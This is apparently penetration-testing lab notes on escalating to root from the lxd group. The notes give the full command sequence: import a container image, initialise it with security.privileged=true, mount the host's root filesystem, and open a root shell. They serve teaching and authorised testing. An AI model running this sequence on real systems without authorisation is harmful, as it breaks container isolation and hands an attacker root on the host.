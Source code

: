 ### LXD

```bash
container-user@nix02:~$ id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
From here on, there are now several ways in which we can exploit `LXC`/`LXD`. We can either create our own container and transfer it to the target system or use an existing container.
```bash
container-user@nix02:~$ ls ContainerImages

ubuntu-template.tar.xz
```
Such templates often do not have passwords, especially if they are uncomplicated test environments
```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list
```
After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.
```bash
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`
```bash
lxc start privesc
lxc exec privesc /bin/bash

root@nix02:~# ls -l /mnt/root
```